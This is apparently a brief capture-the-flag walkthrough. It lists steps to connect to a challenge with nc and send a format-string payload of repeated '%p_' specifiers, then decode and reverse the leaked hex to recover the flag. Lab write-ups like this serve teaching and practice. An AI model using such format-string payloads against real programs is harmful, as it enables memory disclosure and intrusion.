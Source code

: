 1. nc ...
2. select 1
3. write
```
%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_%p_
```
4. Press enter
5. Select 2
6. Read contents from the 7th to the 13th underscore (usually)
7. Decode (https://codebeautify.org/hex-string-converter) e invert (python => \<flag\>[::-1])
